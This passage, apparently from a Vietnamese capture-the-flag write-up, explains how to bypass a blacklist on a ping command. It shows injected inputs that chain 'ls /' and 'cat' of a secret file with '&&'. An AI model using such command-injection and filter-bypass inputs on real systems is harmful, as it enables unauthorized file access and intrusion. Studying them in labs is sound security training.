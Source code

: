 - Như vậy lúc này ta cần tìm cách để có thể tiêm thêm câu lệnh vào lệnh ping trên. Ta thấy ngoài việc nối thêm câu lệnh bằng việc sử dụng `;` thì ta có thể sử dụng `||` hoặc `&&` (bỏ qua kí tự trong black list và sử dụng các kí tự khác).

    Dấu `&&`: sẽ chạy câu lệnh sau nếu câu lệnh trước thành công.

    Dấu `||`: sẽ chạy câu lệnh sau nếu câu lệnh trước thất bại.

- Như vậy bài này ta thực hiện dùng lệnh `&&` như sau:

    ```bash 
    ping 8.8.8.8 && ls /
    ```

    ![alt text](IMG/2/image-2.png)

    ```bash
    ping 8.8.8.8 && cat /ash4zxdf_secret.txt
    ``` 

    ![alt text](IMG/2/image-4.png)
